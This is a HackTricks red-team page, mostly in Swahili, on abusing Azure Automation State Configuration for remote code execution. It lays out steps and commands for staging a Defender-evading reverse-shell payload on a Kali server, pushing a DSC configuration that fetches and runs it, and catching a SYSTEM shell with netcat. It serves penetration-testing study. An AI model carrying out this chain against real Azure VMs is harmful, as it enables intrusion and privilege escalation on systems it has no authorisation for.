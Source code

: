 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

Mchakato huu unahusisha kuanzisha miundombinu ya seva ya mbali ili kuhifadhi payload iliyobadilishwa ya Nishang `Invoke-PowerShellTcp.ps1`, inayoitwa `RevPS.ps1`, iliyoundwa ili kupita Windows Defender. Payload inatolewa kutoka kwa mashine ya Kali Linux yenye IP `40.84.7.74` kwa kutumia seva rahisi ya HTTP ya Python. Operesheni inatekelezwa kupitia hatua kadhaa:

#### Step 1 — Create Files

* **Files Required:** Inahitajika skripti mbili za PowerShell:
1. `reverse_shell_config.ps1`: Faili ya Desired State Configuration (DSC) inayopata na kutekeleza payload. Inapatikana kutoka [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1).
2. `push_reverse_shell_config.ps1`: Skripti ya kuchapisha usanidi kwa VM, inapatikana kwenye [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Customization:** Vigezo na parameta katika faili hizi lazima zibadilishwe ili kufaa mazingira maalum ya mtumiaji, ikiwa ni pamoja na majina ya rasilimali, njia za faili, na vitambulisho vya seva/payload.

#### Step 2 — Zip Configuration File

* Faili ya `reverse_shell_config.ps1` inashirikiwa katika faili la `.zip`, ikifanya iwe tayari kwa uhamishaji kwenda kwenye Akaunti ya Hifadhi ya Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Weka Muktadha wa Hifadhi & Pakia

* Faili la usanidi lililoshonwa linapakiwa kwenye kontena la Hifadhi la Azure lililowekwa awali, azure-pentest, kwa kutumia cmdlet ya Azure Set-AzStorageBlobContent.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Prep Kali Box

* Seva ya Kali inashusha mzigo wa RevPS.ps1 kutoka kwenye hifadhi ya GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Skripti inahaririwa ili kubaini VM ya Windows inayolengwa na bandari ya shell ya kurudi.

#### Hatua ya 5 — Chapisha Faili la Mipangilio

* Faili la mipangilio linafanywa kazi, na kusababisha skripti ya shell ya kurudi kupelekwa kwenye eneo lililotajwa kwenye VM ya Windows.

#### Hatua ya 6 — Kuweka Payload na Kuanzisha Listener

* Python SimpleHTTPServer inaanzishwa ili kuhifadhi payload, pamoja na listener ya Netcat kukamata muunganisho unaokuja.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Kazi iliyoandaliwa inatekeleza payload, ikipata haki za kiwango cha SYSTEM.

#### Hitimisho

Utekelezaji wa mafanikio wa mchakato huu unafungua uwezekano mwingi wa hatua zaidi, kama vile kudondosha hati au kupanua shambulio kwa VMs nyingi. Mwongozo unahimiza kujifunza na ubunifu endelevu katika eneo la Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

